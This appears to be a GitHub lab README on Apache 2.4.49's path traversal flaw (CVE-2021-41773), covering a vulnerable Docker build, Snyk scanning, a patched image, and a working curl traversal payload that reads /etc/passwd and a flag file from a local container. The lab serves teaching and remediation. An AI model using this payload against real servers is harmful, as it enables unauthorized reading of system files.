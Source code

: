 # CVE-2021-41773

CVE-2021-41773 is a CVE within the Apache HTTP Server, specifically version 2.4.49. 

> A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013.

[National Institute of Standards and Technology](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)


## CVE Lab

This lab contains a vulnerable Dockerfile, which includes the Apache 2.4.49 package and its associated configuratons which this CVE required to be installed.

We can


## Scanning with Snyk 

To use Snyk, you must first:

* Sign up for Snyk
* Install the CLI agent using Node (must have NPM installed) `npm install -g snyk`
* Authenticate with snyk `snyk auth "<API KEY>"` (this is already handled on the playground instances)

You can now start to scan local images using Snyk. Snyk will analyise the dependencies installed in the image, and scan them against its backend database of vulnerabilities.

Snyk is already installed on the Playground instances, so we can skip this step.


## Building and Scanning Vulnerable IMage

There are two directories within the Docker directory, both containing a Dockerfile and a set of dependencies.

* vulnerable
* safe.

To build the vulnerable image, run the following command:

```
$ bash build.sh
```

This will create a Docker image using the Dockerfile located in the `vulnerable` directory, and tag it `apache-vulnerable`.

Now you have built the vulnerable Docker image, it's time to scan this using Snyk. To scan a Docker image, run the following:

```
$ snyk container test apache-vulnerable


Testing apache-vulnerable...


✗ Low severity vulnerability found in apache2/apache2-bin
  Description: Cross-site Scripting (XSS)
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-391822
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...

✗ High severity vulnerability found in apache2/apache2-bin
  Description: Directory Traversal
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1728102
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.50-1

✗ High severity vulnerability found in apache2/apache2-bin
  Description: NULL Pointer Dereference
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1728105
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.50-1

✗ Critical severity vulnerability found in apache2/apache2-bin
  Description: Directory Traversal
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1729585
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.51-1



Organization:      ecsdcmhrpr
Package manager:   deb
Project name:      docker-image|apache-vulnerable
Docker image:      apache-vulnerable
Platform:          linux/amd64
Licenses:          enabled

Tested 146 dependencies for known issues, found 55 issues.

Pro tip: use `--file` option to get base image remediation advice.
Example: $ snyk test --docker apache-vulnerable --file=path/to/Dockerfile

To remove this message in the future, please run `snyk config set disableSuggestions=true`

```


## Exploit

We've shown how to detect the vulnerable package, but lets now show you how to exploit it!

First up, start up a new container from the created image

```bash
$ docker run -d -p 9000:80  apache-vulnerable
```

This will start a new container, using the apache-vulnerable image, mapping the port 9000 to the port run on the apache server within the container. The `-d` flag means it will run in the background.

Lets test we can connect to the server:

```bash
curl localhost:9000
```


Now, to run the exploit:

```
curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

[playground@worker3-snyk ~]$ curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

This will exploit a flaw in the directory traversal code of the Apache HTTPD server. IN this case, we will use this exploit to read the contents of the "/etc/passwd" file.

To actually retrieve the flag, we will change the command to print the contents of /etc/flag.txt:

```
curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/flag.txt"
```


## Making it Safe

Now we've demonstrated the exploit and how to scan for the critical vulnerabilities used to run the exploit, lets go and make it safe.

Included in the `docker` directory is a directory called `safe` which includes patched versions of the apache dependencies.

Let's run the following command to build the safe image (apache-safe):

```
bash build_safe.sh
```

You can create a new container using this image (remember to stop the first one by running docker kill <ID>)

```bash
$ docker run -d -p 9000:80  apache-safe
```

Run the exploit:

```
curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/flag.txt"
```

And to scan the new image to confirm the vulnerability is no longer present:

```
$ snyk container test apache-safe
```
